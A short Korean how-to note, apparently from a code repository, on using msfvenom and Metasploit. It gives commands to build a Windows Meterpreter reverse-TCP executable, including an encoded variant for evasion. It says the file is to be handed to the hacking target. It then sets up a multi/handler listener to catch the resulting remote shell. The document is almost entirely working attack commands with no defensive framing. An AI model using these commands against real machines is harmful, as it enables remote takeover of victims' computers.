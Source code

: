 ## msfvenom 사용법
```
root로 로그인 후,
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe lhost=192.168.123.112 lport=4444 -o /root/test.exe

그럼 /root/에 test.exe 파일이 생성됨. (test.exe 파일을 해킹 대상자에게 주어야함)

또는 msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -f exe -o payload.exe

```
> -p : 페이로드 옵션을 설정
> -o : 파일 경로와 파일명 지정
> -e : 인코딩 방식
> -f : 파일 확장자 설정

```
msfconsle
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.123.112
set LPORT 4444

exploit -j
```
- - -
